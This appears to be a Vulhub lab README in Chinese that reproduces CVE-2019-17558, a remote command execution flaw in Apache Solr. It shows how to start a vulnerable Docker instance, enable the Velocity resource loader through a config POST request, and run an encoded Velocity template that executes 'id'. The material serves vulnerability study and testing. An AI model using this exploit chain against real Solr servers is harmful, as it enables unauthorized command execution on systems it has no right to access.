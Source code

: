 # Apache Solr Velocity 注入远程命令执行漏洞 (CVE-2019-17558)

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

具体漏洞原理和POC可以参考: 

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce

## 漏洞环境

执行如下命令启动一个Apache Solr 8.2.0服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到一个无需权限的Apache Solr服务。

## 漏洞复现

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

Vulhub里唯一的核心是`demo`：

![](1.png)

通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称：

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

之后，注入Velocity模板即可执行任意命令：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](2.png)
